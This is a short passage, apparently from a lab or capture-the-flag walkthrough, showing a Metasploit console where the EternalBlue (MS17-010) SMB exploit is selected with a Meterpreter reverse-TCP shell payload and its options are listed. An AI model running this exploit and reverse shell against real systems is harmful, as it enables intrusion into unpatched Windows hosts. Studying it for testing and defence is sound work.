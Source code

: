 We will use module 0

```console
msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basi
                                             cs/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows
                                             Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Serv
                                             er 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2
                                             , Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.190.255    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

```
